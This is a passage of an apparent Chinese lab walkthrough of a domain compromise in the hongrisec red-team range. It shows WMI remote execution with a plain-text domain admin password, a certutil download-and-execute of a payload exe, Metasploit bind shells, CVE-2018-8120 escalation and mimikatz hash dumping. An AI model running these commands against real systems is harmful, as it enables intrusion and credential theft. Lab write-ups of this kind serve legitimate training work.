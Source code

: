这个时候防火墙是开启，关闭防火墙，使用域用户`god\\administrator/hongrisec@2020`成功登录这一台 win7WEB 主机

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjdqRXQOGxcf6wamJSxwm2QIqGKf6qR1spFGFcW78Q4EzGEZebcOHyFQ/640?wx_fmt=png)

上传`vmiexec.vbs`到 192.168.52.143（win7）机器上，然后执行

```
cscript.exe vmiexec.vbs /cmd 192.168.52.138 administrator hongrisec@2020 "whoami"
```

因为我用 vbs 几次都没有回显，所以我这里使用的 Ladon.exe，执行

```
Ladon.exe wmiexec 192.168.52.138 administrator hongrisec@2020 whoami
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjUXw911fOYWGHqM602TX0h16W7w6YvCTVI6m7FJFjSoFPqA00xbhX9A/640?wx_fmt=png)

**同上面的过程一样，获取一个正向的 msf 连接，过程如下：**

首先生成一个正向的 exe 文件放到 win7 的网站目录上

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjvglqEvvRdSawPyibO2wf6WBhomKb5bvO1zib9vdhwwJfvfg9dST55fnA/640?wx_fmt=png)

在 win7 上看一下，上传成功

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjI1pWibkog1iaTBia2oZZ7azJlUDvS8SMj9rQp1xO6TCI76umBxrfAEERQ/640?wx_fmt=png)

在 win7 上使用 WMI 执行命令

```
certutil.exe -urlcache -split -f http://192.168.52.143/6666.exe&6666.exe
```

成功执行，这时候在 138 机器（即 DC-win2008）上开启 6666 端口监听

在 msf 上个运行 blin_tcp 来获取回话

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pjlhia5nBXahB2rseB5iaKzNzRwZeEk14icAg4icNM5pqUKWWIsf91GvLDicg/640?wx_fmt=png)

成功获取域控权限，后续提权

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pjr7JqU6QcQOuHXOY0CH9kva9jKbhm8xgOBupgujxBzPMHBuPMNiaBKEA/640?wx_fmt=png)

使用`CVE-2018-8120`提权，成功提到系统权限，这里我思考了一下用`MS14-068`应该也能够提权成功

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjWqdMEHD1HTD0pKRWJHFptpffJC4ZruCdfyhrnsSv5fLB5zHFo1KgCg/640?wx_fmt=png)

成功提权，上免杀 mimikatz，成功抓到 hash

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjZnibG0Fzia39J0VmMr34PSD95VI6qWDXxic0N4icDd5iaBoOYeYhkRyUzRg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjCTutC4sJqtiaKdzZuBGCdkSqIrib4IV9icstubJpAccn5UKiaiarj1UcEPw/640?wx_fmt=png)

**票据加计划任务获取 DC**

这里先用 msf 的命令生成正向的马 `yukong.exe`

```
windows/reverse_bind_tcp LHOST=192.168.10.11 LPORT=7777
```
